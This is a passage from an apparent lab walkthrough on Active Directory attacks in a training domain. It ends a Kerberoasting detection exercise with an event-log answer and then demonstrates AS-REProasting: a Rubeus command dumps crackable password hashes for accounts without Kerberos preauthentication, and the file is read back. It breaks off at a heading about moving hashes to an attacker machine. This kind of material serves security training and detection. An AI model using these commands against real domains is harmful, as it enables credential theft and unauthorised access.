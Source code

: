 ```
TargetUserName: bob@EAGLE.LOCAL
ServiceName: webservice
ServiceSid: S-1-5-21-1518138621-4282902758-752445584-2110
IpAddress: 172.16.18.25
TicketEncryptionType: RC4_HMAC
```

**Answer : S-1-5-21-1518138621-4282902758-752445584-2110**

#### Notes

* Event ID 4769 is logged whenever a Kerberos service ticket is requested.
* Monitoring such events can help detect suspicious Kerberoasting attempts.
* Filtering by `ServiceSid` or `ServiceName` can help focus on high-value targets or honeypot accounts.

***

## AS-REProasting

### Overview

AS-REProasting is an Active Directory attack technique similar to **Kerberoasting**, but it targets **user accounts that have "Do not require Kerberos preauthentication"** enabled. The attack extracts crackable password hashes from these users, which can then be cracked using a dictionary attack.

**Target Domain:** `eagle.local`\
**Target Users:** `anni`, `svc-iam`

***

### Perform AS-REProasting with Rubeus

```powershell
.\Rubeus.exe asreproast /outfile:asrep.txt
```

**Sample output:**

<figure><img src="https://97192284-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgJzvqFCnTpw25MQy2FcH%2Fuploads%2F2CE48BLw0XuMtTngW56S%2FScreenshot%202025-09-12%20at%2012.40.11%E2%80%AFPM.png?alt=media&#x26;token=1323ad3a-fd86-47db-9480-ad94bf9341d8" alt=""><figcaption></figcaption></figure>

```
[*] SamAccountName         : anni
[*] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt
```

3. Verify the output hash file:

```powershell
Get-Content C:\Users\bob\Downloads\asrep.txt
```

***

### Step 3: Transfer the Hash File to the Attacker Machine (Linux)


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami  